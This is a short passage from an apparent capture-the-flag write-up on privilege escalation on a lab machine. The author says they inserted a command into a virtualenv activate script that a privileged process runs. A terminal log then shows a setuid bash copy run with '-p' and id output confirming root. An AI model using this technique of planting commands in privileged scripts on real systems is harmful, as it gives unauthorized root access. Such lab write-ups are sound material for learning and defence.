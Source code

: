 ```bash
```

It's successful to open editing `/app/venv/bin/activate`.
I added `rootbash` command line at the top.
Then, let's wait for a while for the code to run.

```bash
edwards@agile:/tmp$ ls
attachments
completed
new
pending
rootbash

edwards@agile:/tmp$ ./rootbash -p

edwards@agile:/tmp# whoami
root

edwards@agile:/tmp# id
uid=1002(edwards) gid=1002(edwards) euid=0(root) egid=0(root) groups=0(root),1002(edwards)
```

I got succeed to get a `root` shell!